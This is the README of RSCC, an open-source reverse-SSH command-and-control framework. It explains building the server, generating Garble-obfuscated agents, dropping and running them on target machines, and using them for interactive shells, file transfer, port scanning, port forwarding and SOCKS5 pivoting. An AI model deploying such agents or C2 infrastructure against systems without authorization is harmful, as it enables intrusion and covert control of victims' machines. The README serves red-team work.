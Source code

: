 <div align="center">
  <h1>RSCC</h1>
  <tt>~ Reverse SSH Command & Control ~</tt><br/>
  <img src=".github/rscc.png"/><br/>
</div>

RSCC is an open source, cross-platform command & control framework that allows you to control your agents (targets) via SSH.

## Features

Since RSCC is based on SSH, it has the following features:

- Cross-platform agents
- Fully interactive shell
- File transfer via SCP or SFTP
- Local / Remote  port forwarding
- Chain SOCKS5 proxy via SSH -D

**Also you can extend agent with your own SSH subsystems!**

As an example, there is a [port scanner subsystem](pkg/agent/internal/sshd/subsystems/pscan.go) that allows you to scan the target host for open ports from the agent.

<details>
<summary>Example</summary><br/>

```sh
ssh rscc+agent_id -s pscan --ports 139,445,3389 --ips 10.10.10.10
```

</details>

## Getting Started

### Prerequisites

To use RSCC, you need to have following tools on server machine:

- Go 1.24+ (https://go.dev/doc/install)
- Garble (https://github.com/burrowers/garble)

### Installation

Just download binary from [latest release](https://github.com/nu11zy/rscc/releases/latest) and run it.

Or build it from source:

```sh
git clone https://github.com/nu11zy/rscc.git
cd rscc
make build
```

## Usage

### Server

1. Add your public key to `authorized_keys` file in the current directory or `~/.ssh/authorized_keys`.

2. Start **RSCC** server:

```sh
./rscc
```

3. Update your SSH config (for example, `~/.ssh/config`):

```yml
# Server config
Host rscc
  HostName 127.0.0.1 # RSCC server IP
  Port 55022         # RSCC operator port
  User nu11z         # Operator username

# Agent config
Host rscc+*
  ProxyJump rscc
  UserKnownHostsFile /dev/null
  StrictHostKeyChecking no
```

4. Connect to **RSCC** server:

```sh
ssh rscc
```

5. Generate agent (see `--help` for more options):

```sh
rscc > agent generate -s "127.0.0.1:8080"
```

6. Download agent to your machine (*web delivery is coming soon*):

```sh
scp rscc:<agent_name> /path/to/local/file
```

### Target

1. Drop agent to target machine and execute it:

2. Get agent's session ID:

```sh
ssh rscc session list
```

3. Connect to agent:

```sh
ssh rscc+session_id
```

### More examples

<details>
<summary>SOCKS5 Proxy</summary><br/>

```sh
ssh -D 9090 rscc+agent_id
```

Now you can use `127.0.0.1:9090` as SOCKS5 proxy.

</details>

<details>
<summary>Transfer files</summary><br/>

SCP:

```sh
scp /path/to/local/file rscc+agent_id:/path/to/remote/file
```

SFTP:

```sh
sftp rscc+agent_id
```

</details>

<details>
<summary>Port forward subsystem</summary><br/>

List forwarded ports:

```sh
ssh rscc+agent_id -s pfwd list
```

Forward local port 8080 to 1.1.1.1:80:

```sh
ssh rscc+agent_id -s pfwd start 8080:1.1.1.1:80
```

Stop port forward:

```sh
ssh rscc+agent_id -s pfwd stop 8080
```

</details>

## Roadmap

- [ ] Support for agent listeners with custom protocols (HTTP, WS, gRPC)
- [ ] Add more subsystems *(execute-assembly, port forward, inject, etc)*
- [ ] Webhooks for events
- [ ] HTTP server for serving agents
- [ ] More documentation
